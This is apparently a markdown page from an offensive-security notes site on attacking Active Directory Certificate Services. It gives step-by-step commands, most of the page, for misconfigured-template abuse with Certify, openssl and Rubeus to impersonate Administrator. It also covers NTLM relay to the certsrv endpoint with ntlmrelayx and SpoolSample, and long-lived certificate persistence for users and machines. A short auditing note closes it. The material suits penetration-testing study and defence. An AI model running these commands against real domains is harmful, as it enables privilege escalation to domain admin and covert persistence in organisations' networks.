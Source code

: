 ```yaml
---
title: Active Directory Certificate Services
category: Active Directory
order: 8
---
```


Active Directory Certificate Services (AD CS) is a server role that allows you to build a public key infrastructure (PKI). Which can provide public key cryptography, digital certificates and digital signature capabilities.

Some practical applicatios include Secure/Multipurpose Internet Mail Extensions(S/MIME), secure wireless networks, VPNs, IPSec, Encrypting File System (EFS), smart card logon and SSL/TLS.

If a correct implmentation is given, can improve the security of an organisation by:

* Confidentiality through encryption.
* Integrity through digital signatures.
* Authentication by associating certificate keys with computers, users or devices accounts on networks.

Misconfiguration of the AD CS can lead to domain privilege escalations or persistence.

# Enumerating Certificate Authorities

To find AD CS Certificate Authorities (CA) in domain we can run `certify` with `cas` as parameter.

* [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)

```powershell
.\Certify.exe cas
```
We will see in te output the `Root CAs` and the `Enrollment CAs`, in addition to this we will see the certificate chain and the list of certificate templates for each CA, and some information about which principals are allowed to manage them.

# Misconfigured Certificate Templates

`Certify` also allow us to find vulnerable CAs.

```powershell
.\Certify.exe find /vulnerable
```

* `ENROLLEE_SUPPLIES_SUBJECT` allows the certificate requestor to provide a Subject Alternative Name (SAN).
* `Client Authentication` means that the certificate can be used for authentication.

If a pincipal that you control had `WriteOwner`, `WriteDacl`, `WriteProperty`, `Owner` or `Enrollment Rights` and the CA is configured with `ENROLLEE_SUPPLIES_SUBJECT` and `Client Authentication`, we will be able to request a certificate for any user of the domain an use it to autenticate to the domain.

```powershell
.\Certify.exe request /ca:dc.corp.local\ca-1 /template:TemplateName /altname:Administrator
```

Copy the whole certificate including the private key and save it to `cert.pem`. Then with `openssl` we can convert it to `pfx` format.

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

> **Note** It is recommended to enter a password.

Convert `cert.pfx` into base64.

```
cat cert.pfx | base64 -w 0
```
And finally we can use `Rubeus` to request a TGT.

```
.\Rubeus asktgt /user:Administrator /certificate:<B64-CERT> /password:certificate-password /nowrap
```

# NTLM Relaying to ADCS HTTP Endpoints

Active Directory Certificate Service support HTTP enrolment methods and even inlcudes a GUI. The endpoint is often found in:

```
https://ip-addr/certsrv
```
By default supports NTLM and Negotiate authentication methods so these endpoints are vulnerable to NTLM relay attacks. A common abuse method is to force a DC to authenticate to an attacker controlled location, relay the request to the CA and obtain the certificate for that DC, then use it to obtain a TGT. 

> **Note**: We can not relay the authentication back to the original machine, which means we can not PrintSpooler the DC if it contains the CA.

```
ntlmrelayx.py -t http://ip-addr/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```
Use one of the remote authentication methods to force a connection to our compromised server.

```powershell
.\SpoolSample.exe 10.10.10.12 10.10.10.13
```

On the output of `ntlmrelay` we will see the base64 certificate of the machine account. After obtaining the TGT we can abuse `S4U2self` to obtain a TGS of CIFS service.

# User Persistence

We can craft a certificate for later use if managerial approval is not required for certificate requests.

```
.\Certify.exe find /clientauth
.\Certify.exe find /clientauth /ca:dc.corp.local\ca-1
```

This will show every certificat template that has a suitable Extended Key Usage (EKU) for client authentication. We can request a certificate for our use with:

```
.\Certify.exe request /ca:dc.corp.local\ca-1 /template:User
```
This certificate will allow us to request a TGT with Rubeus, by default is valid for a year and will continue working even if the user changes their password.

# Computer Persistence

Similar to User, machines are a special type of user in AD and can have their own certificates issued. The default template for computers is called `Machines`.

```
.\Certify.exe request /ca:dc.corp.local\ca-1 /template:Machine /machine
```

> **Note**: The `/machine` parameters tells to Certify to auto-elevate to SYSTEM and assume the identity of the machine account.

# AD CS Auditing

AD CS logging is not enabled by default, so it is unsurprisingly common for defenders to be blind to this activity in their domain.

`Audit Certification Services` must also be enalbed via GPO to `Success` or `Failure` depending on the tolerance of the organization.